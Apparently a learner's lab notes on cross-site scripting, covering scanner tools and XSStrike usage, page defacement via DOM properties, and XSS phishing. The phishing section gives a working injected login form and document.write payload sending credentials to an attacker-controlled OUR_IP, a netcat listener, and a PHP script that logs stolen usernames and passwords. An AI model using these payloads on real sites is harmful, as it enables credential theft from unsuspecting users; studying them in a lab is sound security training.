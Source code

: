 **Discovery**
*Some scanners can detect the presence of XSS, like Burp, ZAP, and Nessus*
Some open source tools that an help are:
- XSS Strike
- Brute XSS
- XSSer
The basic XSS Strike syntax is 
```
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

With our PHP webserver we can execute payloads on all fields and mark our payloads for their location. Then we will see if a field returns a call to our server. 
![[../../Pasted image 20250603093610.png]]
![[../../Pasted image 20250603093853.png]]
**Defacement**
Four main elements to change 
- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

**Phishing**
These can either be stored XSS or reflected/DOM. If it isn't stored, you may be able to use XSS in the URL and send a malicious link.  One basic example is injecting a form into a webpage URL, so that we can steal credentials.
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
As a XSS payload that would look like this 
```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
To remove an element run
```
document.getElementById('<element>').remove();
```
To connect to the listener
```
sudo nc -lvnp 80
```
The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Then run 
```shell-session
Enigma3nma@htb[/htb]$ mkdir /tmp/tmpserver
```